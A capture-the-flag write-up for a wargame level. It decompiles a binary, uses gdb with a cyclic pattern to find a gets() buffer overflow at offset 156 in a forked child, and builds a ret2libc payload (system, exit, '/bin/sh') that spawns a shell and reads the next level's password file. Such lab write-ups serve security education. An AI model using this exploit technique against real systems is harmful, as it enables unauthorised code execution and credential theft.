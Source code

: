 # Level04

## Setup

We find a binary file at the root of the user **`level04`** named *`./level04`*.

```bash
scp -r -P 4242 level04@<vm_ip>:/home/users/level04/level04 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).


## Source
```C
char s[128];
__pid_t v9;

v9 = fork();
...
gets(s);
```
s is size 128 but we can write as much as we want inside thanks to `gets(s)`

The only issue is that `gets(s)` is called in a child process and gdb doesn't check child processes by default, we need to add this option : `follow-fork-mode child`

### gdb
```bash
> set follow-fork-mode child
> r < <(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'")

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2572]
0x41326641 in ?? ()
```
Overflow at offset `156`

### Payload
	system(), exit() and "/bin/sh" are at the same addresses as before
```bash
> python -c "print 'A'*156 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xF7\xF8\x97\xEC'[::-1]" > /tmp/payload04
> cat /tmp/payload04 - | ./level04 
Give me some shellcode, k
> cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```